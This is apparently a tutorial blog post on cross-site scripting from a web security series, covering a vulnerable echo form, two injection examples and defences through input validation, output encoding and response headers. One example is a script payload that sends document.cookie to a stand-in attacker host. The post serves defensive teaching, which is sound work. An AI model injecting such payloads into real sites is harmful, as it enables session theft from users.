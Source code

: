 ```yaml
---
layout: post
title:  Security - XSS
tags: security
---
```


This is the second post of a **Web Security Series**. Let's talk about the well known XSS (Cross-Site Scripting) attack.

## XSS

XSS attacks are based on script injection exploiting the echoes/output from the server in response to user input, without validation or output encoding.

```html
<form action="benign.php" method="post">
    <input type="text" name="message">
    <input type="submit" value="submit">
</form> 

<!-- output sent message -->
${message}
```

#### Example #1

Injecting a script to send cookies to a malicious site.

```html
<script>new Image().src = ‘http://evil.php/steal?' + document.cookie</script>
```

#### Example #2

Injecting a simple tag to execute random javascript.

```html
<b onmouseover=alert('Wufff!')>click me!</b>
```

## Solution

There are two well known types of XSS attacks (Stored and Reflected). Stored or persistent Xss attacks are saved/persisted in the backend and can be retrieved later for various uses. Reflected are the ones shown in the previous examples.

To address both the issues, both user **input validation** should be enforced as well as **output encoding**.

### Input Validation

We can use the framework of choice to help validate user input. We should strive for whitelisting as much as possible.

```java

// bean validation example
class Message {

@NotNull
@Pattern(regexp="[a-z]*")
@Size(min=5, max=10)
private String payload;

// getters and setters omitted
}

// controller 
@Valid Message message;
```

Couple of **Important Notes**:
* whitelist as much as possible, not blacklist.
* Avoid reflecting input back to the user (form, url, etc).

### Output Validation

Leverage the framework encoding capabilities to encode the output to prohibit writing malicious code back into the *HTML*.

```html
<!-- output sent message (jstl) -->
<c:out value="${message}"/>
```

## Caveats

**Response Header**
- X-XSS-Protection: 1; mode=block

Although modern browser use this header to validate XSS potential responses and block the output. This should not be relied upon as some browsers can disregard this instruction. 